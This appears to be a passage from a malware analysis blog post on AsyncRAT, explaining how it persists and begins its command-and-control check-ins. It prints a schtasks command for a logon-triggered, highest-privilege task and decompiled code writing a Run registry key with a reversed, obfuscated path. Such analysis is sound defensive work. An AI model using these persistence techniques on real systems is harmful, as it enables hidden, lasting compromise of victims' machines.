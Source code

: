 This is where things branch off a little bit. If the malware is running in the context of an Administrator, a scheduled task is created as the method of persistence.

```batch
schtasks /create /f /sc onlogon /rl highest /tn "AsyncRAT.exe" /tr "C:\Path\To\AsyncRAT.exe"
```

Everytime the machine boots and the Administrator account is logged on, the malware will run.

If not running as the Administrator level context, a registry key is created instead, as below.

```batch
else
{
    using (RegistryKey registryKey = Registry.CurrentUser.OpenSubKey(Strings.StrReverse("\\nuR\\noisreVtnerruC\\swodniW\\tfosorciM\\erawtfoS"), RegistryKeyPermissionCheck.ReadWriteSubTree))
    {
        registryKey.SetValue(Path.GetFileNameWithoutExtension(fileInfo.Name), "\"" + fileInfo.FullName + "\"");
    }
}
```
You'll also notice that string reversing is used here as yet another layer of obfuscation, this is so if you ran strings against the malware, the registry key path wouldn't flag immediately inside a tool like PEStudio.

# Command and Control (C2)

ASyncRAT creates an infinite loop to connect to the C2 (defined through the builder), alongside routinely checking in with the C2 server. Between these checks, the ASyncRAT will sleep

![AsyncRAT mutex](assets/images/blogs/async-rat/c2-sleep.png)

Following this is the `Reconnect()` method.
